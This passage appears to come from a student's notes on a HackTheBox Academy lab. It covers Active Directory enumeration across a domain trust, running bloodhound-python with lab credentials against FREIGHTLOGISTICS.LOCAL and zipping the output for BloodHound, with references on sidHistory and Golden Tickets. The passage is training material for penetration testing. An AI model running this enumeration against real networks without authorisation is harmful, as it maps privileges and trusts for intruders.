    INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
    INFO: Found 183 groups
    INFO: Found 2 trusts

compress and zip the output 

.. code-block:: bash

    Temen@htb[/htb]$ zip -r ilfreight_bh.zip *.json

    adding: 20220329140127_computers.json (deflated 99%)
    adding: 20220329140127_domains.json (deflated 82%)
    adding: 20220329140127_groups.json (deflated 97%)
    adding: 20220329140127_users.json (deflated 98%)

Step 3:  Repeat the process for the freightlogistics.local domain 

.. code-block:: console 

    Temen@htb[/htb]$ cat /etc/resolv.conf 

    # Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
    #     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
    # 127.0.0.53 is the systemd-resolved stub resolver.
    # run "resolvectl status" to see details about the actual nameservers.

    #nameserver 1.1.1.1
    #nameserver 8.8.8.8
    domain FREIGHTLOGISTICS.LOCAL
    nameserver 172.16.5.238

And run :ref:`bloodhound.py` 

.. code-block:: bash 

    Temen@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

    INFO: Found AD domain: freightlogistics.local
    INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 5 computers
    INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
    INFO: Found 9 users
    INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
    INFO: Found 52 groups
    INFO: Found 1 trusts
    INFO: Starting computer enumeration with 10 workers

Zip up this output as well and upload it to Bloodhound. 

Viewing Dangerous Rights through BloodHound
================================================

References 
**************

HackTheBox:         https://academy.hackthebox.com/module/143/section/1488

sidHistory:         https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory

Golden Ticket:      https://attack.mitre.org/techniques/T1558/001/

SID Filtering:      https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html
